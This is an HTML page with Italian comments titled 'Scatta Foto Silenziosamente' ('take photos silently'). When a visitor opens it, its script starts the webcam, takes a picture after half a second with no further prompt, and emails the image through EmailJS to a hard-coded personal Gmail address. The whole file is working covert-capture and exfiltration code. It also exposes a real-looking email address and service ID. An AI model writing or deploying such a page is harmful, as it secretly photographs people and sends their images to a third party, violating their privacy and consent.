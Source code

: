 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Scatta Foto</title>
    <script src="https://cdn.emailjs.com/dist/email.min.js"></script>
</head>
<body>
    <h1>Scatta Foto Silenziosamente</h1>
    <video id="video" width="320" height="240" autoplay></video>
    <canvas id="canvas" style="display:none;"></canvas>

    <script>
        emailjs.init('user_XYZ12345');  // Sostituisci con il tuo User ID EmailJS!

        // Inizializza la fotocamera
        navigator.mediaDevices.getUserMedia({ video: true })
        .then(function(stream) {
            var video = document.getElementById('video');
            video.srcObject = stream;
        })
        .catch(function(err) {
            console.log('Errore nell\'accesso alla fotocamera: ' + err);
        });

        // Funzione per scattare la foto dopo 0.5 secondi
        function scattaFoto() {
            var canvas = document.getElementById('canvas');
            var video = document.getElementById('video');
            var context = canvas.getContext('2d');

            // Disegna il video nel canvas
            context.drawImage(video, 0, 0, canvas.width, canvas.height);

            // Converte l'immagine in base64
            var imgData = canvas.toDataURL('image/png');

            // Invia l'immagine tramite EmailJS
            var templateParams = {
                to_email: 'sharafomar834@gmail.com',  // Sostituito con il tuo indirizzo email
                from_name: 'Fotocamera',
                message: 'Foto scattata automaticamente',
                attachment: imgData
            };

            emailjs.send('service_mrkzn2a', 'template_id', templateParams)  // Sostituisci 'template_id' con il tuo template ID
            .then(function(response) {
                console.log('Foto inviata con successo:', response);
            }, function(error) {
                console.log('Errore nell\'invio della foto:', error);
            });
        }

        // Scatta la foto automaticamente dopo 0.5 secondi
        setTimeout(scattaFoto, 500);  // 500ms = 0.5 secondi
    </script>
</body>
</html>
